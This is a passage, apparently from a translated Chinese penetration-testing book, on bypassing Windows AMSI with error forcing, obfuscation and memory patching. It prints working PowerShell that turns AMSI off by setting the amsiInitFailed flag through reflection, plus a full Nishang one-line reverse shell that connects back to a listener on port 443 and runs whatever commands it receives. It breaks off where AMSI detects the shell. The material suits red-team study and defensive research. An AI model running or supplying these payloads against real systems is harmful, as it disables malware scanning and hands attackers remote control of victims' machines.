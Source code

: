 我们将尝试使用三种不同的技术绕过 AMSI：错误强制、混淆和内存修补。如前所述，我将使用 SRV01 机器：

```
Get-WmiObject Win32_OperatingSystem | Select PSComputerName, Caption, Version | fl
PSComputerName : CASTELROCK
Caption        : Microsoft Windows Server 2019 Datacenter Evaluation
Version        : 10.0.17763
```

## 方法 1 – 错误强制

让我们首先看看错误强制代码和一些分割/串联的幻想：

```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

执行上述命令的结果如下面的截图所示：

![图 2.3 – 强制错误](img/B18964_02_03.jpg)

图 2.3 – 强制错误

## 方法 2 – 混淆

对于 AST 混淆，我们可以尝试使用 Nishang 框架[6]中的 **PowerShellTcpOneLine.ps1** 反向 Shell 回调，以及之前提到的 Invoke-Obfuscation 工具。我们将在另一台 Windows 计算机上使用 powercat[7] 在 443 端口上设置监听器。以下是原始的反向 Shell 代码：

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.214.135',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

当我们尝试运行时，AMSI 捕获了我们：

